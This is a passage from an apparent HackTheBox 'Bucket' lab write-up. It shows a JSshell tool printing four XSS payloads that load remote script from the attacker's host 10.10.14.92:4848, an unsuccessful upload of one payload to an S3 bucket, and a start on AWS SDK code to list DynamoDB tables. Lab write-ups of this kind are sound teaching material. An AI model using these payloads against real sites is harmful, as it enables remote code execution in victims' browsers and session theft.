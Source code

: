 ```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/js-shell/JSshell]
└─$ python3 jsh.py -s 10.10.14.92 -g
    __              
  |(_  _ |_  _  |  |
\_|__)_> | |(/_ |  |
                      v3.1

Payloads:  
 - SVG: <svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//10.10.14.92:4848"},1010)>
 - SCRIPT: <script>setInterval(function(){with(document)body.appendChild(createElement("script")).src="//10.10.14.92:4848"},1010)</script>
 - IMG: <img src=x onerror=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//10.10.14.92:4848"},1010)>
 - BODY: <body onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//10.10.14.92:4848"}></body>

Listening on [any] 4848 for incoming JS shell ...

```

I used the `<script>setInterval(function(){with(document)body.appendChild(createElement("script")).src="//10.10.14.92:4848"},1010)</script>` payload, and saved this to a file named `pld` before uploading it.

I then tried to hit the shell by visiting `http://s3.bucket.htb/pld`, but got no response back. I could have spent some time looking for an upload location, but had a feeling that this wasn't the correct way to go, so I moved on.

I had to use the `kill` command to close the listener using its PID, as it was unresponsive to `Ctrl + C`:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/js-shell/JSshell]
└─$ ps aux | grep jsh.py
mac         4790  0.1  1.4  30140 22096 pts/5    S+   13:03   0:00 python3 jsh.py -s 10.10.14.92 -g
┌──(mac㉿kali)-[~/Documents/HTB/bucket/js-shell/JSshell]
└─$ kill -9 4790
```

**Looking for Useful SDK Functions**

I started trying to write some code using the Javascript SDK. I ran into a few issues, as it wasn't as well documented as other SDKs, but I started out with a simple attempt at listing the Dynamo Tables:

```javascript
var dynamodb = new AWS.DynamoDB();  
var param = {};  
dynamodb.listTables(param, function (err, data) {  
	if (err) console.log(err, err.stack); // an error occurred  
	else console.log(data); // successful response  
});
```
